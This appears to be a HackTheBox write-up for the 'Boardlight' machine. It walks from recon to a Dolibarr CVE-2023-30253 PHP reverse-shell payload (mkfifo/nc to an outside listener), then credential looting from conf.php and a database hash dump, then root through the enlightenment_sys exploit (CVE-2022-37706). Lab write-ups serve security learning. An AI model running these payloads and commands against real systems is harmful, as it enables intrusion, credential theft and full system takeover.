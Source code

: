 ```yaml
---
title: "Boardlight"
date: 2025-08-15 14:13:00 +0500
categories: [Boxes]
tags: [HTB, Box, Linux, Easy, Authenticated RCE, CVE-2023-30253,]
---
```


## Recon

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN boardlight 10.10.11.11
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 14:12 PKT
Nmap scan report for 10.10.11.11
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.92 seconds
```

Let's interact with Port 80.

### Web Enumeration

#### Fingerprinting

```bash
whatweb 10.10.11.11                                                                  
http://10.10.11.11 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]
```

![alt text](/assets/images/boardlight-web.png)

There isn't much on the web page. Let's start by enumerating for vhost.

#### vhost Enumeration

```bash
gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt --append-domain -t 60
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         60
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
Progress: 2280 / 2281 (99.96%)
===============================================================
Finished
===============================================================
```

Let's add the subdomain `crm` to our `/etc/hosts` file. Then let's interact with the subdomain.

### crm.board.htb

![alt text](/assets/images/boardlight-crm.png)

On trying the default credentials `admin:admin` we are able to authenticate.

Let's search for any known vulnerabilities in Dolibarr CRM 17.0.0

There's an authenticated RCE associated with Dolibarr CRM 17.0.0

[CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)

Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation: <?PHP instead of <?php in injected data.

We are able to create a website?

![alt text](/assets/images/boardlight-dolibarr.png)

## Foothold

To get a foothold we will create a website (give it any name), then create a page (again any name).

- Then on that page `Edit HTML Source`. 
- Insert this payload between the `<section></section>`:

```php
<?PHP system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.30 1234 >/tmp/f"); ?>
```

- Save.
- Enable show dynamic content.
- You have a shell.

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.11] 39224
sh: 0: can't access tty; job control turned off
$ whoami
www-data

$ python3 -c "import pty; pty.spawn('/bin/bash');"
```

We find some creds:

```bash
cat conf/conf.php                                  
$dolibarr_main_db_user='dolibarrowner';                                                                                                                                                                       
$dolibarr_main_db_pass='serverfun2$2023!!';                                                                                  
$dolibarr_main_db_type='mysqli';                                                                                       
```

### Enumerating mysql

Time to check what the database hides:

```bash
www-data@boardlight:~$ mysql -u dolibarrowner -p
use dolibarr;

mysql> select * from llx_user;
<SNIP>
|     1 |      0 |              | NULL    |     1 |        1 |                0 | 2024-05-13 13:21:56 | 2024-05-13 13:21:56 |          NULL |          NULL | dolibarr | NULL          | NULL | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm | NULL      | NULL         |        |          | SuperAdmin |           |         |      |      |     NULL |       NULL | NULL  | NULL        |      |              |            |             |                 |       |                |           | null           |   NULL |         NULL |      NULL |    NULL |                      NULL |                      NULL | NULL    | NULL    | NULL    |             |              | NULL      | 2024-05-15 09:57:04 | 2024-05-13 23:23:59 | NULL                   | NULL              | NULL            | 10.10.14.31 | 10.10.14.41     |          NULL |          | NULL   |      1 | NULL  | NULL |       | NULL    |               0 |                  |          0 | NULL | NULL |   NULL |        NULL | NULL           | NULL              |        NULL | NULL       |          NULL |                  NULL |                              |         NULL |
|     2 |      1 |              | NULL    |     0 |        1 |                0 | 2024-05-13 13:24:01 | 2024-05-15 09:58:40 |          NULL |          NULL | admin    | NULL          | NULL | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 | NULL      | yr6V3pXd9QEI | NULL   |          | admin      |           |         |      |      |     NULL |       NULL | NULL  | NULL        |      |              |            |             |                 |       |                |           | []             |   NULL |         NULL |      NULL |    NULL |                      NULL |                      NULL | NULL    | NULL    | NULL    |             |              | NULL      | 2025-08-15 02:54:01 | 2024-05-17 00:19:27 | NULL                   | NULL              | NULL            | 10.10.16.30 | 10.10.14.41     |          NULL |          | NULL   |      1 | NULL  | NULL |       | NULL    |               0 |                  |          0 | NULL | NULL |   NULL |        NULL | NULL           | NULL              |        NULL | NULL       |          NULL |                  NULL |                              |         NULL |
<SNIP>
2 rows in set (0.00 sec)

```

We have a bcrypt hash:

`$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm`

### Shell as larissa

Nevermind, this was a rabbit hole. We can simply `su` as larissa without having to crack the hash. `larissa:serverfun2$2023!!`. We can also ssh using the creds.

## Privilege Escalation

#### LinPEAS

From the output on LinPEAS: 

```bash
Vulnerable to CVE-2021-3560
```

But I am certain this isn't intended as the user directory has some unusual directories. 

```bash
larissa@boardlight:~$ ls -la
total 80
drwxr-x--- 16 larissa larissa 4096 Aug 15 03:04 .
drwxr-xr-x  3 root    root    4096 May 17  2024 ..
lrwxrwxrwx  1 root    root       9 Sep 18  2023 .bash_history -> /dev/null
-rw-r--r--  1 larissa larissa  220 Sep 17  2023 .bash_logout
-rw-r--r--  1 larissa larissa 3771 Sep 17  2023 .bashrc
drwx------  2 larissa larissa 4096 Aug 15 03:03 .cache
drwx------ 12 larissa larissa 4096 May 17  2024 .config
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Desktop
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Documents
drwxr-xr-x  3 larissa larissa 4096 May 17  2024 Downloads
drwx------  3 larissa larissa 4096 Aug 15 03:04 .gnupg
drwxr-xr-x  3 larissa larissa 4096 May 17  2024 .local
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Music
lrwxrwxrwx  1 larissa larissa    9 Sep 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Pictures
-rw-r--r--  1 larissa larissa  807 Sep 17  2023 .profile
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Public
drwx------  2 larissa larissa 4096 May 17  2024 .run
drwx------  2 larissa larissa 4096 May 17  2024 .ssh
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Templates
-rw-r-----  1 root    larissa   33 Aug 15 02:52 user.txt
drwxr-xr-x  2 larissa larissa 4096 May 17  2024 Videos
```

Also from LinPEAS output:

```bash
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                            
                      ╚════════════════════════════════════╝                                                                                                                                                  
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                                               
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                                                                                     
-rwsr-sr-x 1 root root 15K Apr  8  2024 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 467K Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)
-rwsr-xr-x 1 root root 44K Feb  6  2024 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 55K Apr  9  2024 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 67K Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 84K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Apr  9  2024 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 87K Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 67K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 15K Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
```

There's a LPE exploit associated with enlightenment_sys:

[LPE](https://www.exploit-db.com/exploits/51180)

```bash
larissa@boardlight:~/.config$ mkdir -p /tmp/net
larissa@boardlight:~/.config$ mkdir -p "/dev/../tmp/;/tmp/exploit"
larissa@boardlight:~$ echo "/bin/sh" > /tmp/exploit
larissa@boardlight:~$ chmod a+x /tmp/exploit

larissa@boardlight:/usr/lib/x86_64-linux-gnu/enlightenment/utils$ ./enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

---
